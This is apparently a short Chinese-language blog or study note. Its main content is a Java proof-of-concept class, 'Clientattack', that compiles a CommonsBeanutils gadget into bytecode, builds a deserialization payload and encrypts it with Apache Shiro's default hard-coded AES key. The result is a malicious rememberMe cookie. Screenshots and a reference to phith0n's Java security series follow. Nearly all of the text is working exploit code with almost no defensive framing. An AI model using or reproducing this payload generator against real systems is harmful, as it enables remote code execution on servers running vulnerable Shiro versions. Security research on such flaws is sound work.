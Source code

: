 

转字节码打shiro poc：

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
public class Clientattack {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(org.example.ShiroCommonsBeanutils1.class.getName());
        byte[] payloads = new CommonsCollectionsShiro().getPayload(clazz.toBytecode());
        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221207125223110.png)





![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221207125113917.png)







参考：phith0n《java安全漫谈(16、17)》

